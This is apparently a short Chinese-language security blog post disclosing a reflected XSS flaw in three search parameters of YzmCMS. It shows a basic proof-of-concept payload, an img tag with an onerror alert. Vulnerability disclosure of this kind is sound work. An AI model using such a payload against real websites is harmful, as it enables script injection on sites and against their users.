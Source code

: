 ```yaml
---
title: "YzmCMS 存在反射型 XSS"
date: 2024-03-09
description: "主页面搜索功能三个参数都存在 xss"
tags: ["XSS","前端漏洞"]
featured_image: ""
# images is optional, but needed for showing Twitter Card
images: []
categories: "sec"
comment: false
draft: false
---
```


YzmCMS 主页面的搜索功能有三个参数，这三个参数都存在反射性 xss。

![xss1](/images/xss/xss0-0.png)

没有过滤，我们插入常规 payload 即可。

    <img src=a onerror=alert(1)>

![xss1](/images/xss/xss0-1.png)